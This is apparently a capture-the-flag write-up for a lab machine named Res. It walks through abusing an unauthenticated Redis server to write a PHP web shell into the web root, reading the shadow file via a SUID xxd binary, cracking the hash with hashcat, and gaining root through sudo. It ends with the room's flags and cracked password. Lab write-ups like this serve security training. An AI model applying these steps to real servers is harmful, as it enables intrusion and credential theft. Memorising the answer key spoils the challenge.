





# RES

## NMAP SCAN

```text
PORT STATE SERVICE VERSION  
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))  
|_http-server-header: Apache/2.4.18 (Ubuntu)  
|_http-title: Apache2 Ubuntu Default Page: It works  
6379/tcp open redis Redis key-value store 6.0.7
```

## REDIS ENUMERATION

```text
nc -vn 10.10.106.155 6379  
INFO

$3677  
#Server  
redis_version:6.0.7  
redis\_git\_sha1:00000000  
redis\_git\_dirty:0  
redis\_build\_id:5c906d046e45ec07  
redis_mode:standalone  
os:Linux 4.4.0-189-generic x86_64  
arch_bits:64
......
```

Logged in redis port and make sure that the /var/www/html is the directory of the webpage

```text
redis-cli -h 10.10.106.155 

CONFIG GET dir

CONFIG SET dir /var/www/html
```

Then use the metasploit auxiliary module to upload a file \(shell.php\)



Go to Browser in shell.php directory



Works get a www-data shell



## PRIVESC

In the SUID Files we have the suid xxd and we can read any file we want

```text
find / -perm -u=s -type f 2>/dev/null
```

lets read the shadow file


Use hashcat to decrypt \(in Windows Machine \| FASTER\)

```text
hashcat.exe -m 1800 hash rockyou.txt
```



swith to user vianka

and vianka has sudo privs

so sudo /bin/bash



## ANSWERS

1. Scan the machine, how many ports are open?

```text
2
```

1. What's is the database management system installed on the server?

```text
Redis
```

1. What port is the database management system running on?

```text
6379
```

1. What's is the version of management system installed on the server?

```text
6.0.7
```

1. Compromise the machine and locate user.txt

```text
thm{red1s_rce_w1thout_credent1als}
```

1. What is the local user account password?

```text
beautiful1
```

1. Escalate privileges and obtain root.txt

```text
thm{xxd_pr1v_escalat1on}
```

